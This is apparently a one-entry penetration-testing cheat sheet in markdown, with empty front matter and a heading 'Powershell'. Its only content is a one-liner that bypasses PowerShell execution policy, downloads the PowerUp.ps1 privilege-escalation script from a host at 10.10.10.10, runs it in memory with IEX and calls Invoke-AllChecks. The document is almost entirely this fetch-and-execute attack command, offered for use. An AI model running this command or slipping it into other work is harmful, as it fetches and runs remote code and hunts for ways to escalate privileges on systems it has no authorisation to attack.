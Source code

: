 ```yaml
---
category: Uncategorized
tags: []
---
```

Powershell

Powerup Download and Invoke All Checks:

~~~PowerShell
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Windows/Powershell/PowerUp.ps1'); Invoke-AllChecks”
~~~

